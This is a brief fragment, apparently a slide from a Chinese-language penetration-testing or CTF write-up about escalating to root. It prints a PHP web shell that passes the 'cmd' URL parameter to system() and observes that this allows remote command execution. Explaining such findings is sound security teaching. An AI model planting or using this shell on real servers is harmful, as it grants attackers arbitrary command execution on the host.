

# 提权获取root
查看对应的php文件：
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}
?>
可以看到这里可以远程执行命令。